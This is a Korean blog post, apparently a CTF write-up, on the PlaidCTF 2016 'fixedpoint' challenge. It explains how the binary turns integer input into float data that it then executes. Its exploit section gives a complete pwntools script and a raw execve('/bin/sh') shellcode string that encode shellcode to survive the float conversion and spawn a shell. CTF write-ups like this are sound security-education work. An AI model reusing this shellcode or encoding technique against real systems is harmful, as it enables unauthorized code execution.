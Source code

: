 ```yaml
---
layout: post
title: "PCTF 2016 - fixedpoint"
date: 2017-11-17 +1143
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```


## I. 바이너리 분석
  이번에도 재미있는 CTF문제를 하나 들고왔다. 사실 이번 문제는 그렇게 공격이 어려운 문제는 아니었는데, 쉽게 Floating 데이터가 어떻게 관리가 되는지, 그리고 ShellCode를 만들줄 아는지에 대한 문제였다.<br />
  일단, Hex-Ray로 디컴파일을 한 결과는 다음과 같다.<br />
  <br />
  ```C
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
  signed int v4; // [sp+24h] [bp-Ch]@2
  signed int i; // [sp+28h] [bp-8h]@1
  int (*v6)(void); // [sp+2Ch] [bp-4h]@1

  v6 = (int (*)(void))mmap(0, 0x8000u, 7, 34, -1, 0);
  for ( i = 0; i <= 0x1FFF && __isoc99_scanf((const char *)&unk_80485F0, &v4); ++i )
    *((float *)v6 + i) = (long double)v4 / 1337.0;
  write(1, "here we go\n", 0xBu);
  return v6();
  }
  ```
  소스코드가 매우 짧다.<br />
  미리 이야기를 하지만 포너블이나 익스플로잇 관련된 기술에 접근할 때는, 해당 프로그램 또는 소스코드가 무슨 역할을 하는 녀석인지 확실하게 알고 진행해야한다.<br />
  이 코드는 mmap으로 0x8000만큼의 사이즈를 가지는 메모리 영역을 rwx 모든 권한을 할당한 채로 새로 매핑한다는 뜻이다.<br />
  그렇게 새로 매핑된 주소는 v6라는 변수 안에 들어간다. 이 v6 변수는 함수 포인터로 사용이 되는데, 우리가 입력한 정수 값이 1337.0과 나눠진 결과를 float 데이터로 4바이트씩 저장한다.<br />
  그리고 마지막에 해당 주소를 call함으로써 우리가 생성한 쉘코드를 실행한다.<br />
  <br />
  비슷한 문제가 사실 DEFCON CTF 2017 예선때도 하나 나왔었는데, 그 당시에는 나는 파이썬에서 그런게 가능한줄도 모르고 직접 손으로 계산해서 쉘코드를 만들었었다.<br />
  일단, 우리는 대학 컴퓨터 프로그래밍 시간에도 배웠겠지만 floating pointer는 지수영역과 가수영역이 따로 나뉘어져 연산되고 관리된다는 것을 알고 있다.<br /><br />
  <img src="http://www.c-jump.com/bcc/common/Talk2/Cxx/IEEE_754_fp_standard/const_images/ieee.gif" />
  <br />
  <br />
  그렇기 때문에 사실상 직접 계산해서 쉘코드를 만드는 것은 많이 복잡한편이다.<br />
  그래서 나는 Python의 struct모듈을 활용했는데, 이전까지는 Long, Integer 형태의 데이터만 pack, unpack하기 위해서 사용했었는데 이번에는 처음으로 Floating 옵션을 사용하게 되었다.<br />
  예를 들어서 위에 있는 1337을 나누는 코드를 내가 원하는 값이 나오게 만들려면 어떤 값을 넣어야할지 찾을 때, 다음과 같은 코드를 사용할 수 있다.<br />
  ```Python
  #!/usr/bin/python
  import struct
  from pwn import *

  pf32 = lambda x: struct.pack("<f", x)
  uf32 = lambda x: struct.unpack("<f", x)[0]
  pl32 = lambda x: struct.pack("<L", x)
  ul32 = lambda x: struct.unpack("<L", x)[0]

  ...
  deadbeef = ul32(pl32(uf32("\x41\x41\x41\x41") * 1337))
  ...
  ```
  이 코드의 실행결과는 다음과 같다.
  <br />16148<br />
  이를 fixedpoint 바이너리 안에 넣어서 확인해보면 다음과 같은 결과를 볼 수 있다.

  <br />
  ~~~
  (gdb) x/10wx $eip
  0xf7fcd000:	0x41413e9d	0x00000000	0x00000000	0x00000000
  0xf7fcd010:	0x00000000	0x00000000	0x00000000	0x00000000
  0xf7fcd020:	0x00000000	0x00000000
  (gdb) 
  ~~~
  이는 연산이 잘못된 것이 아니라, 상위 바이트는 우리가 표현할 수 있는 영역에 한계점이 있기 때문에 발생하는 오차이다.<br />
  이 때문에 우리는 조금 더 안정적인 쉘코드를 작성하려면, 적어도 상위 바이트는 임의로 변하지 않는 값을 넣어주어야 한다.<br />
  즉, 데이터 타입의 영향을 받지 않는 녀석을 선정해야한다.<br />


  ## II. Exploit
  ```Python
#!/usr/bin/python
import struct
from pwn import *

pf32 = lambda x: struct.pack("<f", x)
uf32 = lambda x: struct.unpack("<f", x)[0]
pl32 = lambda x: struct.pack("<L", x)
ul32 = lambda x: struct.unpack("<L", x)[0]

p = process("./fixedpoint")
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
gadget = asm("inc esi")
make_sh = []

print "[*] Disassemble Shellcode"
print "==================================================="
print disasm(shellcode)
print "===================================================\n\n"

make_sh.append(asm('mov edi, esp'))		# Stack Pointer Moved
make_sh.append(asm('mov al, 0x2f'))		# '/'
make_sh.append(asm('mov [edi], al'))		# mov [edi], al
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x62'))		# 'b'
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x69'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x6e'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x2f'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x73'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x68'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('xor eax, eax'))
make_sh.append(asm('mov [edi], al'))

make_sh.append(asm('mov ebx, esp'))
make_sh.append(asm('push eax'))
make_sh.append(asm('push ebx'))
make_sh.append(asm('mov ecx, esp'))
make_sh.append(asm('mov al, 0xb'))
make_sh.append(asm('xor edx, edx'))
make_sh.append(asm('int 0x80'))

shell = ''.join(x for x in make_sh)
print "Final Shellcode"
print "==========================================="
print disasm(shell)
print "==========================================="

for data in make_sh:
	payload = data
	payload = payload.ljust(0x3, gadget)
	payload = payload.rjust(0x4, gadget)
	floating = ul32(pl32(uf32(payload) * 1337))
	p.sendline(str(floating))

p.sendline("Get Shell!!")
print p.recvuntil("go")

p.interactive()
  ```